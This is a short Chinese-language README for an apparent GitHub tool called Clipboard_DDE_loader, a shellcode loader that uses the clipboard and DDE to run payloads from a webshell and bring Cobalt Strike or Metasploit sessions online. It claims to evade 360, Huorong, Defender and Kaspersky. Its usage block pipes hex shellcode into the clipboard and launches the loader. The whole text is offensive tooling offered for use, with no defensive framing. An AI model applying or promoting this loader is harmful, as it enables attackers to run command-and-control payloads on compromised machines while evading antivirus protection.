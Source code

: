 # Clipboard_DDE_loader

生成的剪贴板+DDE组合的加载器，只能用于webshell上线cs、msf或执行某些shellcode，不能用于钓鱼上线。

原理看之前文章吧，64位效果比32位好

2022/2/11静态+动态基本能过360、火绒、def、卡巴等

卡巴斯基内存查杀主要看你shellcode能不能过了

用法：webshell命令行下执行
```
echo fc4883e4f0e8c00000004... | clip
start Clipboard_DDE.exe\
```

原理：
https://mp.weixin.qq.com/s/0AQzguAU8mS2ktbs-kUF3w
